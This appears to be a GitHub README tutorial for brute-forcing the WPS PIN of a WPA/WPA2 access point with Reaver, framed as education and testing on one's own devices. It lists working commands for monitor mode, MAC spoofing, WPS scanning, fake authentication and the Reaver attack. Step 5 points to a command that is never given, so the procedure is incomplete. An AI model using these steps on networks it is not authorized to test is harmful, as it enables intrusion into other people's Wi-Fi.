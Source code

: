 # WPS WPA/WPA2 Brute Force Attack with Reaver

Simulation demonstrates step-by-step method for attempting to brute force WPA/WPA2- protected access point
exploiting WPS vulnerabilities and retrieving 8 digit key

# Project is for education and ethical testing within your own devices.

## Tools Used
  -  *airmon-ng*  -enables monitor mode
  -  *aireplay-ng* - used for fake authentication
  -  *wash* -scans for WPS-enabled access points
  -  *reaver* - brute-force tools for WPS PIN

## Setup & Attack

1. Confirm and Enable Wireless Adapter
   -sudo iwconfig

2. Prepare Monitor mode
   - sudo ifconfig wlan0 down
   - sudo macchanger -r wlan0
   - sudo airmon-ng check kill
   - sudo airmon-ng start wlan0

3. Search for WPS access points
   - sudo wash --interface wlan0

4. Locate WPS access point (Locked:NO) and enter information for Fake Authentication
   - sudo aireplay-ng --fakeauth 30 -a <Target_BSSID> -h <Your_MAC> wlan0

5. DO NOT RUN COMMAND YET until following command (horizontal) entered below
   - sudo reaver --bssid <Target_BSSDI> --channel <Target_Channel> --interface <your network wlan0> -vvv --no-associate
